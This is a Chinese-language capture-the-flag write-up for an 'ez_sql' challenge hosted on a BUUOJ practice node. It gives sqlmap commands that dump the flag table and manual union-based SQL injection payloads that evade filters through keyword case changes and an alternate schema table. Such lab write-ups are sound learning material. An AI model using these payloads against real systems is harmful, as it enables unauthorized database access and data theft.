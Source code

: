 ## ez_sql

> 首先由题目可以知道，这是一个sql注入题

![image-20240822105458179](https://gitee.com/bx33661/image/raw/master/path/image-20240822105458179.png)

随便点击一个页面，发现类似注入点`id`

```
http://5b504731-96a4-476f-a0cf-a500c888deea.node5.buuoj.cn:81/?id=TMP0919
```

- 使用sqlmap直接获取flag

```bash
python sqlmap.py -u"http://5b504731-96a4-476f-a0cf-a500c888deea.node5.buuoj.cn:81/?id=1" --dbs

python sqlmap.py -u"http://5b504731-96a4-476f-a0cf-a500c888deea.node5.buuoj.cn:81/?id=1" -D ctf --tables

python sqlmap.py -u"http://5b504731-96a4-476f-a0cf-a500c888deea.node5.buuoj.cn:81/?id=1" -D ctf -T here_is_flag --dump
```

- 手工注入

首先发现有过滤，这里采用大小写绕过

```bash
?id=-1%27%20union%20Select%201,2,3,4,5%20--+    
?id=-1' union Select database(),2,3,4,5 --+     
```

> 从网上学习:
>
> 然后经过再次测试，发现`information_schema.tables`和`where`都被过滤了
> 这里用`mysql.innodb_table_stats`和`wHere`代替
> （多次尝试，发现回显的位置在5而不是1，开始卡了很久没回显）
> 爆表名

```bash
?id=-1' union SelECt 1,2,3,4,group_concat(table_name) from mysql.innodb_table_stats wHere '1 --+
```

```bash
?id=-1' union SelECt 1,2,3,4,group_concat(`1`) from (SelECt 1 union SelECt * from ctf.here_is_flag)a wHere '1 --+
```

